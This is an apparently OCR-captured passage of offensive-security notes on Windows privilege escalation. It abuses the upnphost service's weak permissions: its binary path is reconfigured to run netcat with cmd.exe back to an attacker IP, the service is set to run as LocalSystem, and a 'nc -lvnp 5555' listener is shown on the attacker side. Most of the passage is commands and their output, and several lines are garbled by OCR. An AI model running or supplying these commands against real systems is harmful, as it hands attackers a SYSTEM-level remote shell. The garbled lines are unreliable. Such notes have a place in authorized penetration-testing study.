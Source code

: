 C:\> sc config SSDPSRV start= auto
[SC] ChangeServiceConfig SUCCESS
								
# Double check if it's set to AUTOMATIC (or AUTO_START)
								
C:\> sc qc SSDPSRV
[SC] GetServiceConfig SUCCESS

SERVICE_NAME: SSDPSRV
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\WINDOWS\System32\svchost.exe -k LocalService  
        LOAD_ORDER_GROUP   :   
        TAG                : 0  
        DISPLAY_NAME       : SSDP Discovery Service   
        DEPENDENCIES       :   
        SERVICE_START_NAME : NT AUTHORITY\LocalService	

# Start SSDPSRV Server
C:\> net start SSDPSRV
The SSDP Discovery Service service is starting.
The SSDP Discovery Service service was started successfully.	



et new binary path (don't forget the space after binpath=)                          
# Syntax
C:\> sc config upnphost binpath= "C:\nc.exe -nv [ip] [port] -e C:\WINDOWS\System32\cmd.exe"


# Example
sc config upnphost binpath= "C:\inetpub\wwwroot\nc.exe -e cmd.exe 192.168.45.229 5555"
[SC] ChangeServiceConfig SUCCESS
                                
# Set obj and password
C:\> sc config upnphost obj= ".\LocalSystem" password= "
[SC] ChangeServiceConfig SUCCESS



# Check the service status again
sc qc upnphost

# In Attacker

nc -lvnp 5555
